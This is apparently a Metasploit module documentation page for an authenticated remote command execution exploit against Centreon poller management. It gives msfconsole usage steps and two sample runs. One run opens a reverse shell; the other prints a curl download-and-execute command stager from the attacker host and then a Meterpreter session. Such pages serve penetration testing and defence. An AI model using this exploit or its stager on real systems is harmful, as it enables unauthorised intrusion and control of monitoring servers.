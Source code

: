 ## Vulnerable Application

Centreon is an open source IT monitoring solution by Centreon, a leading Paris-based software company.

An authenticated user with sufficient administrative rights to manage pollers can use this functionality to
execute arbitrary commands remotely. Usually, the miscellaneous commands are used by the additional modules
(to perform certain actions), by the scheduler for data processing, etc.

This module uses this functionality to obtain a remote shell on the target.

Tested on:

 * [Centreon 19.10.8](http://vm.download.centreon.com/centreon-vbox-vm-19_10-3.el7.ovf.zip)
 * [Centreon 19.10.5](http://vm.download.centreon.com/centreon-vbox-vm-19_10-1.el7.ovf.zip)

## Verification Steps

 1. Install the module as usual
 2. Start msfconsole
 3. Do: `use exploit/linux/http/centreon_pollers_auth_rce`
 4. Do: `set RHOSTS [IP]`
 5. Do: `set LHOST [IP]`
 6. Do: `set USERNAME [USERNAME]`
 7. Do: `sat PASSWORD [PASSWORD]`
 8. Do: `set VERBOSE true`
 9. Do: `run`

## Scenarios

```
msf > use exploit/linux/http/centreon_pollers_auth_rce
msf exploit(linux/http/centreon_pollers_auth_rce) > set rhosts [IP]
rhosts => [IP]
msf exploit(linux/http/centreon_pollers_auth_rce) > set username admin
username => admin
msf exploit(linux/http/centreon_pollers_auth_rce) > set password centreon
password => centreon
msf exploit(linux/http/centreon_pollers_auth_rce) > set lhost [IP]
lhost => [IP]
msf exploit(linux/http/centreon_pollers_auth_rce) > set verbose true
verbose => true
msf exploit(linux/http/centreon_pollers_auth_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Send authentication request.
[*] Successful authenticated.
[*] Upload command payload on the target.
[*] Create new poller entry on the target.
[*] Reload the poller to trigger exploitation.
[*]  -- Generating files.
[*]  -- Restarting engine.
[*]  -- Executing command.
[*] Command shell session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:59624) at 2020-02-03 17:41:13 +0400

id
uid=48(apache) gid=48(apache) groups=48(apache),993(centreon-engine),994(centreon-broker),998(centreon),999(nagios)

  --or--

msf exploit(linux/http/centreon_pollers_auth_rce) > set target 1
target => 1
msf exploit(linux/http/centreon_pollers_auth_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Send authentication request.
[*] Successful authenticated.
[*] Using URL: http://0.0.0.0:8080/fNqJS82wB
[*] Local IP: http://XXX.XXX.XXX.XXX:8080/fNqJS82wB
[*] Generated command stager: ["curl -so /tmp/MBoYQsJv http://XXX.XXX.XXX.XXX:8080/fNqJS82wB;chmod +x /tmp/MBoYQsJv;/tmp/MBoYQsJv;rm -f /tmp/MBoYQsJv"]
[*] Upload command payload on the target.
[*] Create new poller entry on the target.
[*] Reload the poller to trigger exploitation.
[*]  -- Generating files.
[*]  -- Restarting engine.
[*]  -- Executing command.
[*] Client XXX.XXX.XXX.XXX (curl/7.29.0) requested /fNqJS82wB
[*] Sending payload to XXX.XXX.XXX.XXX (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 2 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:60536) at 2020-02-03 17:44:47 +0400
[*] Server stopped.

meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
meterpreter >
```

## Targets

```
Id  Name
--  ----
0   Reverse shell (In-Memory)
1   Meterpreter (Dropper)
```

## References

1. <https://www.exploit-db.com/exploits/47969>
2. <https://www.exploit-db.com/exploits/47977>
3. <https://www.exploit-db.com/exploits/47978>
